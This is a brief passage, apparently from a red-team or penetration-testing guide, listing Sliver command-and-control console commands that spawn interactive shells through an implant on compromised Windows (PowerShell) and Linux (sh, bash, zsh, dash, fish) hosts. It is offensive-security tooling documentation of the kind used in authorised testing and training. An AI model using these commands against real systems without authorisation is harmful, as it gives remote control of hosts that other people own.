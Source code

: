 `sliver (IMPLANT_NAME) > shell -s "C:\\Windows\\SysWOW64\\WindowsPowershell\\v1.0\\powershell.exe"`

##### 6.3.2.2 - Linux

`sliver (IMPLANT_NAME) > shell -y -s /bin/sh`

`sliver (IMPLANT_NAME) > shell -y -s /bin/bash`

`sliver (IMPLANT_NAME) > shell -y -s /bin/zsh`

`sliver (IMPLANT_NAME) > shell -y -s /bin/dash`

`sliver (IMPLANT_NAME) > shell -y -s /bin/fish`

## References

* [Sliver](https://github.com/BishopFox/sliver/wiki)